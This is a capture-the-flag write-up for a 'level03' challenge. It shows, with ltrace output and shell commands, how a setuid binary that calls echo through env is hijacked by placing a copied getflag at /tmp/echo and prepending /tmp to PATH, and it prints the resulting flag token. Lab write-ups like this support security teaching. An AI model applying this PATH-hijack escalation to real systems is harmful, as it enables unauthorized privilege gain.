 # Level03
## Description
The level 03 user has an executable **level03**, which user is `flag03`.

# Solution
- If `getflag` get executed by **level03** we will obtain our token.<br>
Use `ltrace` to know if this is possible.

```bash
ltrace ./level03 

__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                        = 2003
geteuid()                                        = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++

```
- ./level03 use `echo`. We need to change the command `echo` use inside ./level03 in `getflag`.<br>
We copy `getflag` in `/tmp/echo` and add `/tmp` at the begining of `$PATH`.

```bash
cp /bin/getflag /tmp/echo 
PATH=/tmp:$PATH
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
- The `echo` called is the first found in the env variable `PATH` so this correspond to our copy of `getflag`.<br>We have found the flag.
